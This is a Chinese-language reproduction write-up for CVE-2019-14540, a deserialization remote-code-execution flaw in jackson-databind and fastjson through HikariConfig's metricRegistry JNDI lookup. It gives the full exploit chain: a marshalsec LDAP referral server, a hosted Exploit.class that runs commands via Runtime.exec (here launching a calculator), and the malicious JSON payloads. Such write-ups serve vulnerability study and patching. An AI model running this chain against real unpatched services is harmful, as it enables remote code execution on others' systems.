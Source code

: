 ```yaml
---
title: "（CVE-2019-14540）FasterXML jackson-databind 远程命令执行漏洞"
id: zhfly2929
---
```


# （CVE-2019-14540）FasterXML jackson-databind 远程命令执行漏洞

## 一、漏洞简介

FasterXML Jackson是美国FasterXML公司的一款适用于Java的数据处理工具。jackson-databind是其中的一个具有数据绑定功能的组件。 FasterXML jackson-databind 2.9.10之前版本中存在输入验证错误漏洞。攻击者可利用该漏洞执行代码。

## 二、漏洞影响

jackson-databind <=2.7.9.6,2.8.11.4,2.9.9.3

fastjson <= 1.2.59

## 三、复现过程

### 分析过程

我喜欢用 gradle 来管理项目，先依赖一个最新版的回来

```
compile 'com.zaxxer:HikariCP:2.4.0' 
```

观察 HikariConfig.java 的setter 和 getter 方法，稍微有点常识的人都能看出， setMetricRegistry 和 setHealthCheckRegistry 里有明显的lookup方法，下一步就是按照标准的剧本去利用一遍了，经典的jndi漏洞利用，老司机应该分分钟就搞定，但我从来没写过利用，就从头学习一下。

### 利用过程（常见的jndi利用）

首先，我利用的是 ldap 协议，需要在低版本（小于 java8u191）下利用，详细原理我不是很清楚，大致原理就是从远程加载一个 class文件，调用它的构造函数，在构造函数里可以执行任意代码。

然后，借用 https://github.com/ianxtianxt/marshalsec 提供的转发功能，创建 ldap server，作用是转发到另一个 http server 上，使用非常方便。

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 1389 `Listening on 0.0.0.0:1389` 
```

然后编译一个 Exploit.class 出来，找个地方放好

```
public class Exploit {
    public Exploit() {
        try {
            if (System.getProperty("os.name").toLowerCase().startsWith("win")) {
                Runtime.getRuntime().exec("calc.exe");
            } else if (System.getProperty("os.name").toLowerCase().startsWith("mac")) {
                Runtime.getRuntime().exec("open /Applications/Calculator.app");
            } else {
                System.out.println("No calc for you!");
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
} 
```

然后在 Exploit.class 目录，开一个 http 服务

```
python -m SimpleHTTPServer 
```

之后使用 jackson 进行反序列化

```
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
mapper.readValue("[\"com.zaxxer.hikari.HikariConfig\", {\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}]".getBytes(), Object.class); 
```

或者使用 fastjson 进行反序列化

```
ParserConfig.global.setAutoTypeSupport(true);
JSON.parse("{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}"); 
```

即可触发弹计算器

![image](../img/b9e3bb35e193b3e64a08a9d10102e2a1.png)

### 文中代码的github地址:

https://github.com/ianxtianxt/cve-2019-14540-exploit

## 参考链接

> https://www.leadroyal.cn/?p=939

> https://www.restran.net/2018/10/29/fastjson-rce-notes/

> https://paper.seebug.org/942/